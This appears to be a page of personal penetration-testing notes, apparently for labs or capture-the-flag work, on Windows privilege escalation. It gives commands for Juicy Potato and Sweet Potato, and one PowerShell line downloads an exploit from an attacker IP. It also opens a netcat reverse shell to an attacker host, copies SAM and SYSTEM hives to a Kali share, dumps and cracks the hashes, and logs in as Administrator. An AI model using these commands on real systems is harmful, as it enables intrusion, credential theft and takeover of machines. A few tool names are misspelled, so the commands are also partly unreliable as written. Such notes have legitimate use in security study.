 ```
- Windows_7_Enterprise
- Windows_8.1_Enterprise
- Windows_Server_2008_R2_Enterprise
- Windows_Server_2012_Datacenter

https://github.com/ohpe/juicy-potato/releases
```
powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.23:8070/JuicyPotato.exe', 'C:\Users\public\JuicyPotato.exe')" -bypass executionpolicy

.\JuicyPotato.exe -h

To run the tool, we need a port number for the COM server and a valid CLSID

Run systeminfo
Find target OS and use link to find CLSIDS of every OS - wuauserv
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md


'\juicypotato.exe -t * -p shell.bat -l 4545 -c "CLSID" 4545'
```

### Sweet Potato
https://github.com/uknowsec/SweetPotato/blob/master/README.md
```
powershell iwr http://10.8.0.24/SweetPotato.exe -outfile .\potato.exe
.\potato.exe -a "C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.8.0.x 443"

Connect using a listener on kali

```
### Export SAM and SYSTEM file to kali machine
```
impacket-smbserver share -smb2support -username USER -password PASS

# On windows use net use X: \\10.8.0.3\share /user:USER PASS
copy Backup\* X:\

// Files should be on kali
// dump stored hash from registry files

impacket-secretdump -sam SAM -system SYSTEM LOCAL

// Put admin nthash in a file

// Use hashcat to crack the hash
hashcat -m 1000 admin.hash /usr/share/wordlists/rockyou.txt

// Use xfreedp or evil-winrm to gain access

evil-winrm -i 192.168.x.x -u Adminstrator -p PASS

OR
Using Metasploit for above
After uploading into shares use msfconsole
